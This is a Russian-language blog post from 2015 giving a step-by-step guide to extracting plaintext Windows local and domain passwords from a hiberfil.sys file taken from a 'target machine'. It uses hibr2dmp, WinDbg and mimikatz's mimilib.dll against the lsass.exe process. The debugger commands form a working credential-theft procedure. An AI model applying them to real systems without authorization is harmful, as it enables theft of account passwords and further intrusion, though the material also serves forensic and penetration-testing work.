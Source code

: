 ```yaml
---
title: "Восстановливаем локальные и доменные пароли из hiberfil.sys"
date: 2015-02-16
---
```


Утилита [mimikatz](http://blog.gentilkiwi.com/mimikatz), позволяющая извлекать учётные данные Windows из LSA в открытом виде, существует с 2012 года, однако помимо [хорошо освещённого](http://www.securitylab.ru/news/420431.php) функционала восстановления паролей из памяти работающей ОС у неё есть ещё одна довольно интересная возможность. Далее я приведу пошаговую инструкцию, как при помощи нехитрых действий извлечь учётные данные из файла hiberfil.sys.  
  

###  **Подготовка**

  
Для осуществления задуманного нам понадобятся следующие утилиты:  


  * [Debugging Tools for Windows](https://msdn.microsoft.com/en-us/library/windows/hardware/ff551063(v=vs.85).aspx)
  * [Windows Memory toolkit](http://www.moonsols.com/windows-memory-toolkit/) free edition
  * И, собственно, сам [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)


###  **Действия**

  


1. Получаем файл hiberfil.sys с целевой машины.

  

2. Конвертируем файл в формат понятный WinDbg

  
**hibr2dmp.exe d:\temp\hiberfil.sys c:\temp\hiberfil.dmp**
**  
**

Процесс может занять довольно продолжительное время

  

![1.jpg]({{ '/images/1.jpg' | absolute_url }})

  

3. Запускаем WinDbg и открываем полученный файл 

  
**File  -**> **Open Crash Dump**

  
4. Настраиваем отладочные символы

  
Открываем **File  ****-** >** ****Symbol File Path… **и вписываем следующую строчку

  
**SRV*c:\symbols*http://msdl.microsoft.com/download/symbols**
**  
**

Вместо c:\symbols, естественно, может быть любой каталог, в который будут загружены символы 

  

![2.png]({{ '/images/2.png' | absolute_url }})

  

В командной строке дебаггера пишем

  

0: kd> **.reload /n**
**  
**

Ждём окончания загрузки символов

  

![1.png]({{ '/images/1.png' | absolute_url }})

  

5. Указываем путь к библиотеке mimilib.dll (находится в каталоге с mimikatz)

  

0: kd> **.load z:\Soft\Security\Passwords\Mimikatz\x64\mimilib.dll**
**  
**

![1.png]({{ '/images/1.png' | absolute_url }})

  

6. Находим адрес процесса lsass.exe

  

0: kd> **!process 0 0 lsass.exe**
**  
**

![1.png]({{ '/images/1.png' | absolute_url }})

  

В данном случае адрес: fffffa800a7d9060

  

7. Переключаем контекст процесса

  

0: kd> **.process /r /p fffffa800a7d9060**
**  
**

![1.png]({{ '/images/1.png' | absolute_url }})

  

8. Запускаем mimikatz и получаем пароли в открытом виде

  

0:kd>** !mimikatz**
**  
**

![1.png]({{ '/images/1.png' | absolute_url }})
**  
**

**  
**

**  
**

###  **Ссылки по теме**

**  
**

Раскрытие учетных данных в Microsoft Windows: **<http://www.securitylab.ru/vulnerability/420418.php>**

LSA Authentication: <https://msdn.microsoft.com/en-us/library/windows/desktop/aa378326(v=vs.85).aspx>

What is Digest Authentication:**<https://technet.microsoft.com/en-us/library/cc778868(WS.10).aspx>**

  

**  
**